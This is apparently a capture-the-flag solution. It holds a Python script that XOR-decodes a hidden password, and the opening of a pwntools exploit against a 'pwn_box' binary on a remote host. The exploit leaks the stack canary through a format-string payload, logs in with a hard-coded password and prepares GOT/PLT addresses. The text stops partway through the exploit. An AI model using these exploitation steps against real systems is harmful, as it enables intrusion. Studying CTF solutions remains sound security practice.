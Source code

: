 ```
#!/usr/bin/python

buf = [0x79, 0x3d, 0xf, 0x3, 0x44, 0x4b, 0x45, 0xa, 0x76, 0x0]
sbuf = "4Unf&uy7Mo"

#for ( i = 0; i < buflen(buf); ++i  )
#    v3[i] = buf[i] ^ *(_BYTE *)(i + 134525066);
#4Unf&uy7Mo
tempBuf = []

for i in xrange(len(sbuf)):
    temp = ord(sbuf[i]) ^ 0xc
    tempBuf += chr(temp)

str = ''
for i in xrange(len(buf)):
    for j in range(0x0, 0xff):
        #temp_j = j ^ ord(sbuf[i]);
        temp_j = j ^ ord(tempBuf[i]);
        if (temp_j == buf[i]):
            print "buf(%#x)(%c) == after^ => (%#x)(%c) | buf = (%c)" %(j, chr(j), temp_j, chr(temp_j), sbuf[i])
            str += chr(j)
            break
print(str)

-----

#!/usr/bin/python

from pwn import *

addNewAccAddr = 0x080489AC
#selfInput(char *buf, int Len)
selfInputAddr = 0x0804871D
bssAddr = 0x0804B100
putsPltAddr = 0x08048570
putsGotAddr = 0x0804B030

#p = process('./pwn_box')
p = remote('117.34.80.134', 7777)
pwnElf = ELF('./pwn_box')
libcELF = ELF('./libc.so.6')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
#gdb.attach(p, '''b *0x08048ACD\n\rc\n\r''')


p.recvuntil('are you?')
p.sendline('%7$08x')
p.recvuntil('login!')
canary = p.recv(8)
canaryVal = eval('0x'+canary)
print "canary =  %s, %#x" %(canary, canaryVal)
p.recvuntil('you?')
p.sendline('Admin2017')
p.recvuntil('commands.')
p.sendline('?')
p.recvuntil('--\n')
p.sendline('add')
p.recvuntil('Site: ')
p.sendline('test')
p.recvuntil('Username: ')
```
